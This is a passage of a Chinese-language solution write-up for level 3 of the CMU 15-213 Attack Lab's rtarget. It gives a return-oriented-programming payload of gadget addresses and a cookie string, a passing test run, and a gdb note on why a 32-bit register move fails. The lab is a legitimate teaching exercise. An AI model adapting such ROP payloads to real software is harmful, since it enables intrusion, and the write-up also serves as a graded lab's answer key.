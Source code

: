 栈低地址

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```

测试

```
cat exploit.ans5 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

这里需要注意 如果我们只把`esp`复制到`eax` 是不行的

通过设置断点可一看到rsp 的高位是非零的,所以如果`06 1a 40 00 00 00 00 00(mov rsp rax 的地址)` 改为 `07 1a 40 00 00 00 00 00(mov esp eax 的地址)`就不能成功

```
(gdb) p $rsp
$1 = (void *) 0x7ffffffab6a8
```

